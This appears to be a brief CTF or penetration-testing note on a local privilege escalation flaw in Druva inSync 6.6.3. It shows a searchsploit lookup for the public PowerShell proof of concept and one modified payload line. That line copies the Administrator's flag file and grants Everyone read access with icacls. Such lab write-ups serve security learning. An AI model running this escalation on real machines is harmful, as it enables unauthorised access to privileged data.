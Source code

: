 # Druva

## 101

Druva is a **cloud-based data protection platform** that provides backup, recovery, and data management services for endpoints, servers, and cloud applications. **Druva inSync is the Windows endpoint backup client**—an agent installed on devices to securely back up data to Druva’s cloud. Essentially, Druva inSync acts as the local software component enabling Druva’s cloud service to protect endpoint data.

## Attacks

The Druva inSync `6.6.3` vulnerability is a **local privilege escalation (LPE)** flaw due to insecure handling of permissions or improperly protected components within the Druva inSync client software.

{% code overflow="wrap" %}
```bash
$ searchsploit Druva 6.6.3

Druva inSync Windows Client 6.6.3 - Local Privilege Escalation (PowerShell) | windows/local/49211.ps1
```
{% endcode %}

The PoC can be modified for CTF purposes:

{% code overflow="wrap" %}
```bash
# Modified code
$cmd = "type C:\Users\Administrator\desktop\flag.txt > C:\Windows\Temp\flag.txt && icacls C:\Windows\Temp\flag.txt /grant Everyone:R /T /C /Q"
```
{% endcode %}
